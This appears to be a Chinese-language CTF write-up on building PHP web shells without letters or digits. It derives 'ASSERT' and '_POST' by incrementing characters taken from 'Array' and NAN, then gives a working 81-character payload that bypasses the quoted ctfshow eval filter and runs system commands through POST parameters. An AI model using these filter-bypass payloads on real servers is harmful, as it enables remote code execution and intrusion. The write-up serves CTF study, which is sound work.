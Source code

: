 有如下
```
"A"++ ==> "B"
"B"++ ==> "C"
```
也就是说，如果我们能够得到"A"，那么我们就能通过自增自减，得到所有的字母。那么问题就转化为怎么得到一个字符"A"。
在PHP中如果强制连接数组和字符串的话，数组将被转换成字符串，其值为"Array"。
再取这个字符串的第一个字母，就可以获得"A"。
```
<?php
$a = ''.[];
var_dump($a);
```
组合
```
<?php
$_=[].'';   //得到"Array"
$___ = $_[$__];   //得到"A"，$__没有定义，默认为False也即0，此时$___="A"
$__ = $___;   //$__="A"
$_ = $___;   //$_="A"
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;   //得到"S"，此时$__="S"
$___ .= $__;   //$___="AS"
$___ .= $__;   //$___="ASS"
$__ = $_;   //$__="A"
$__++;$__++;$__++;$__++;   //得到"E"，此时$__="E"
$___ .= $__;   //$___="ASSE"
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__;$__++;   //得到"R"，此时$__="R"
$___ .= $__;   //$___="ASSER"
$__++;$__++;   //得到"T"，此时$__="T"
$___ .= $__;   //$___="ASSERT"
$__ = $_;   //$__="A"
$____ = "_";   //$____="_"
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;   //得到"P"，此时$__="P"
$____ .= $__;   //$____="_P"
$__ = $_;   //$__="A"
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;   //得到"O"，此时$__="O"
$____ .= $__;   //$____="_PO"
$__++;$__++;$__++;$__++;   //得到"S"，此时$__="S"
$____ .= $__;   //$____="_POS"
$__++;   //得到"T"，此时$__="T"
$____ .= $__;   //$____="_POST"
$_ = $$____;   //$_=$_POST
$___($_[_]);   //ASSERT($POST[_])
```
缩减后
```
```


**注意：**执行的时候要进行一次 URL 编码，否则 Payload 无法执行。




^
## **如果允许0，可以更短**
还有1/_==INF，下划线也可快速构造NAN，如

```bash
	$a=_/_._;   // NAN_
```

如此，有`'N'==$a[0]`
N 跟 O 很近，构造 _POST，通过二次引用即 $\_POST[0](https://www.cnblogs.com/viistar/p/$_POST%5B_%5D); 可执行任意php代码。\
注意$a++; ++$a;的区别，建议先加再用。\
能用的短变量有`$_` 、`$__` 、`$_0` 三个.后面才知道还能用不可见字符替换php变量名称`$%ff`，这样就更短了。\
题目

```php
	<?php

	//本题灵感来自研究Y4tacker佬在吃瓜杯投稿的shellme时想到的姿势，太棒啦~。

	error_reporting(0);

	highlight_file(__FILE__);

	 

	if (isset($_POST['ctf_show'])) {

	    $ctfshow = $_POST['ctf_show'];

	    if (is_string($ctfshow) && strlen($ctfshow) <= 84) {

	        if (!preg_match("/[a-zA-Z1-9!'@#%^&*:{}\-<\?>\"|`~\\\\]/",$ctfshow)){

	            eval($ctfshow);

	        }else{

	            echo("Are you hacking me AGAIN?");

	        }

	    }else{

	        phpinfo();

	    }

	}
```

我的解法81位

```php
	<?php 

	$a=(_/_._)[0];// NAN 取 N

	$aa=++$a;// O

	$a0=++$a.$aa;// PO

	++$a/++$a;

	$a=_.$a0.=++$a.++$a;// _.POST

	$$a[0]($$a[_]);

	//var_dump($a);
```

去掉注释，php开头，替换a为下划线得

```powershell
	$_=(_/_._)[0];$__=++$_;$_0=++$_.$__;++$_/++$_;$_=_.$_0.=++$_.++$_;$$_[0]($$_[_]);
```

接下来url编码，post传`ctf_show=xxxxx&0=system&_=ls`，搞定！

ps: url编码的三种方法\
1.python 的from urllib import quote\
2.php的 echo urlencode\
3.burp suite 的decode 标签\
最短rce5长度72，以后通杀无字母数字！

